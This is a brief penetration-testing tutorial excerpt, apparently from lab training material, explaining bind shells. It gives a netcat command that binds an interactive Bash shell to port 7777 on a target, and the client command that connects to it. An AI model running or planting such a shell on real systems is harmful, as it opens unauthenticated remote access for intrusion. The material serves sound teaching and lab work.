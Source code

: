 With a bind shell, the `target` system has a listener started and awaits a connection from a pentester's system (attack box).
## Establishing a Basic Bind Shell with Netcat
#### No. 1: Server - Binding a Bash shell to the TCP session
```shell-session
$ rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc -l 10.129.41.200 7777 > /tmp/f
```
#### No. 2: Client - Connecting to bind shell on target
```shell-session
 nc -nv 10.129.41.200 7777
```
